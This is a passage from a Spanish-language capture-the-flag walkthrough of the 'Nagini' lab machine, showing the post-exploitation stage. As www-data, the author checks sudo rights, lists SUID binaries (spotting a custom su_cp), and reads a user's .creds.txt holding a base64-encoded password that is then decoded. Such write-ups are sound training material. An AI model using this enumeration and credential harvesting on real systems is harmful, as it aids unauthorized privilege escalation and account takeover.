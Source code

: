 Veamos si tenemos algún privilegio:
```bash
www-data@Nagini:/home$ sudo -l
sudo -l
bash: sudo: command not foun
```
No tenemos.

Busquemos si hay un binario que tenga **permisos SUID**:
```bash
www-data@Nagini:/home$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/home/hermoine/bin/su_cp
```
Parece que hay uno.

Antes de revisarlo, dentro de `/home` hay dos directorios:
```bash
www-data@Nagini:/home$ ls
hermoine  snape
```

Veamos el de **snape**:
```bash
www-data@Nagini:/home$ cd snape
www-data@Nagini:/home/snape$ ls -la
total 32
drwxr-xr-x 4 snape snape 4096 Apr  4  2021 .
drwxr-xr-x 4 root  root  4096 Apr  4  2021 ..
-rw-r--r-- 1 snape snape  220 Apr  3  2021 .bash_logout
-rw-r--r-- 1 snape snape 3526 Apr  3  2021 .bashrc
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 3 snape snape 4096 Apr  4  2021 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3  2021 .profile
drwx------ 2 snape snape 4096 Apr  4  2021 .ssh
www-data@Nagini:/home/snape$ cat .creds.txt
TG92ZUBsaWxseQ==
```
Encontramos una contraseña y parece que está cifrada en **base64**.

La podemos descifrar con la herramienta **base64**:
```bash
echo "TG92ZUBsaWxseQ==" | base64 -d
...
```
